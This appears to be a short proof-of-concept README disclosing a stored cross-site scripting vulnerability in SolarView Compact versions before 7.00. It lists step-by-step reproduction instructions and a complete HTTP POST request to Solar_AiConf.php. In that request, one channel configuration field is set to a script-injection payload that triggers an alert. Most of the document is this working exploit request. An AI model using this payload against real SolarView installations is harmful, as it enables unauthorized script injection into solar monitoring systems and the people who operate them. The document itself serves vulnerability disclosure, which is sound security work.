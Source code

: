 # SolarView-Compact-Stored-XSS

## Description 

Stored XSS in SolarView Compact prior to 7.00 which lead attackers to inject arbitrary script code

## POC

1. navigate to http://{HOST}/Solar_AiConf.php
2. click on update and capture the request
3. edit any of `ch*_*` values to `"><script>alert('XSS_By_Strik3r')`
  
```
POST /Solar_AiConf.php HTTP/1.1
Host: {HOST}
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:106.0) Gecko/20100101 Firefox/106.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: http://{HOST}
Connection: close
Referer: http://{HOST}/Solar_AiConf.php
Upgrade-Insecure-Requests: 1

ch0_min=0&ch0_max=1.43&ch1_min=-50&ch1_max=50&ch2_min=1&ch2_max=5&ch3_min=1"><script>alert('XSS_By_Strik3r')</script&ch3_max=5&button=%8DX%90V
```

4. send the request and notice the XSS alert
